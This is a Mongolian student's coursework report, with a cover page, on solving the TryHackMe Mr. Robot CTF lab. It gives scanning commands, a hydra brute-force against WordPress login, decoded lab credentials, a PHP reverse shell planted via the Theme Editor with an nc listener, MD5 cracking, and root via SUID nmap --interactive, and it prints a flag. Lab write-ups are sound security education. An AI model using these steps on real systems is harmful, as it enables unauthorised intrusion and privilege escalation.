<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал / F.NSA335/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  MrRobot CTF (MEDIUM)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – MRROBOT CTF 


##  УДИРТГАЛ

Энэхүү даалгаврын хүрээнд TryHackMe платформын **Mr. Robot CTF** нэртэй виртуал машины аюулгүй байдлын түвшинг шалгаж, системд үүссэн эмзэг байдал болон буруу тохиргоонуудыг илрүүлэх зорилгоор нэвтрэлтийн туршилт хийж гүйцэтгэлээ. Туршилтын явцад Kali Linux үйлдлийн системийг ашиглан WordPress веб аппликейшны нэвтрэх мэдээллийг brute-force болон base64 decode аргаар олж авч, Theme Editor функцээр PHP reverse shell байршуулан анхны нэвтрэлт авч, MD5 хашийг тайлан хэрэглэгч шилжиж, эцэст нь `nmap`-ийн интерактив горимыг ашиглан root эрх авсан.

##  СҮЛЖЭЭНИЙ СУДАЛГАА (RECONNAISSANCE)


Ажлыг эхлүүлэхийн тулд зорилтот машины IP хаягийг тохируулж `nmap` хэрэгслээр порт сканнердав:

```bash
nmap -sC -sV -Pn 10.48.185.195
```

Анхны скан нь 22, 80, 443-р портуудыг "closed" гэж харуулсан боловч, дараагийн `gobuster` скан нь 80-р порт идэвхтэй веб сервер болохыг баталсан.

##  ВЭБ ДИРЕКТОР СУДАЛГАА



`gobuster` хэрэгслээр директор хайлт хийхэд олон зам илэрсэн:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -url http://10.48.185.195
```

Үр дүнд `/images/`, `/blog/`, `/feed/`, `/sitemap`, `/login` (WordPress-ийн `wp-login.php` руу чиглэдэг) зэрэг зам илэрсэн бөгөөд энэ нь зорилтот сервер дээр **WordPress** ажиллаж байгааг нотолсон.

##  АНХНЫ ТҮЛХҮҮР ОЛОХ



`/robots` хуудсанд хандахад дотор нь `fsocity.dic` нэртэй үгийн сангийн файл болон `key-1-of-3.txt` нэртэй файлын зам заагдсан байв.



`key-1-of-3.txt` файлыг нээж уншихад эхний түлхүүрийг олсон:

```
073403c8a58a1f80d943455fb30724b9
```



##  НЭВТРЭХ МЭДЭЭЛЭЛ ОЛОХ БА БРУТ-ФОРС



`fsocity.dic` файлыг татаж авч, WordPress-ийн `wp-login.php` хуудсанд `hydra` хэрэгслээр brute-force хийв:

```bash
hydra -L fsocity.dic -p test 10.48.185.195 http-post-form ".wp-login.php":"log=^USER^&pwd=^PWD^:Invalid username" -t 30
```



Үр дүнд **Elliot** нэртэй хэрэглэгч бодит хэрэглэгчийн нэр болохыг тогтоосон (алдааны мессеж нь нууц үг буруу гэж заасан тул username зөв болохыг нотолно).



`/license` хуудаснаас дараах base64 кодлогдсон тэмдэгт мөрийг олсон:

```bash
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
# elliot:ER28-0652
```



Ингэснээр `elliot:ER28-0652` гэсэн бүрэн нэвтрэх мэдээллийг олсон.

##  WORDPRESS-ЭЭР REVERSE SHELL АВАХ



Олдсон нэвтрэх мэдээллээр WordPress-ийн админ самбарт амжилттай нэвтэрсэн (WordPress 4.3.1, Twenty Fifteen загвар ашигласан сайт). Админ эрхтэй хэрэглэгч нь **Theme Editor** функцээр шууд PHP файл засварлах боломжтой тул `404.php` файлын агуулгыг PHP reverse shell кодоор дарж бичсэн:


Attacker машин дээр `netcat` listener ажиллуулж, 404 алдааны хуудсыг trigger хийснээр холболт нээгдэв:

```bash
nc -lvnp 1234
```



##  АНХНЫ НЭВТРЭЛТ БА KEY-2

Shell нээгдсэний дараа тогтвортой болгохын тулд дараах командыг ажиллуулсан:

```bash
python -c 'import pty;pty.spawn("/bin/sh")'
```

`/home/robot` директорт `key-2-of-3.txt` (хандах эрхгүй) болон `password.raw-md5` гэсэн хоёр файл байгааг олсон:



```bash
cat password.raw-md5
# robot:c3fcd3d76192e4007dfb496cca67e13b
```

##  MD5 ХАШ ТАЙЛАХ БА ROBOT ХЭРЭГЛЭГЧ РҮҮ ШИЛЖИХ



Олдсон MD5 хашийг онлайн хаш тайлах үйлчилгээ (md5hashing.net) ашиглан тайлахад дараах нууц үг олдсон:



```
abcdefghijklmnopqrstuvwxyz
```

Олдсон нууц үгээр `robot` хэрэглэгч рүү шилжиж, `key-2-of-3.txt` файлыг нээж хоёрдугаар түлхүүрийг олсон.

##  ROOT ЭРХ АВАХ (PRIVILEGE ESCALATION)



`find / -perm -u=s 2>/dev/null` командаар SUID bit тохируулагдсан файлуудыг хайхад, системийн `nmap` байгааг олсон. `nmap`-ийн хуучин хувилбарууд нь интерактив горим (`--interactive`) дэмждэг бөгөөд уг горимд орсны дараа shell горимд шилжих боломжтой:



```bash
nmap --interactive
nmap> !sh
```

`nmap` нь SUID bit-тэй, root эзэмшилтэй байсан тул уг командаар шууд **root** эрхтэй shell нээгдсэн.

